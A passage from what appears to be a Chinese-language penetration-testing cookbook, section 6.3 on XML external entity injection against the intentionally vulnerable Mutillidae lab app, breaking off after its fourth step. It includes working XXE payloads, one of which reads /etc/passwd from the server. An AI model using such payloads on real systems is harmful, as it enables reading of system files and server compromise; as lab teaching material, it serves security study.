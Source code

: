 ## 6.3 利用 XML 外部实体注入

XML 是主要用于描述文档或数据结构的格式，例如，HTML 是 XML 的实现，它定义了页面和它们的关系的结构和格式。

XML 实体类似于定义在 XML 结构中的数据结构，它们中的一些能够从文件系统中读取文件或者甚至是执行命令。

这个秘籍中，我们会利用 XML 外部实体注入漏洞来在服务器中执行代码。

### 准备

建议你开始之前遵循上一个秘籍中的步骤。

### 操作步骤

1.  浏览`http://192.168.56.102/mutillidae/index.php?page=xmlvalidator.php`。

2.  上面写着它是个 XML 校验器。让我们尝试提交测试示例来观察发生什么。在 XML 输入框中，输入` <somexml><message>Hello World</message></ somexml>`，并点击` Validate XML`。

    ![](img/6-3-1.jpg)
    
3.  现在让我们观察它是否正确处理了实体，提交系列代码：

    ```xml
    <!DOCTYPE person [  
        <!ELEMENT person ANY>  
        <!ENTITY person "Mr Bob"> 
    ]> 
    <somexml><message>Hello World &person;</message></somexml>
    ```
    
    ![](img/6-3-2.jpg)
    
    这里，我们仅仅定义了实体并将值`"Mr Bob" `赋给它。解析器在展示结果时解释了实体并替换了它的值。
    
4.  这就是内部实体的使用，让我们尝试外部实体：

    ```xml
    <!DOCTYPE fileEntity [  
        <!ELEMENT fileEntity ANY>  
        <!ENTITY fileEntity SYSTEM "file:///etc/passwd"> 
    ]> 
    <somexml><message>Hello World &fileEntity;</message></somexml>
    ```
    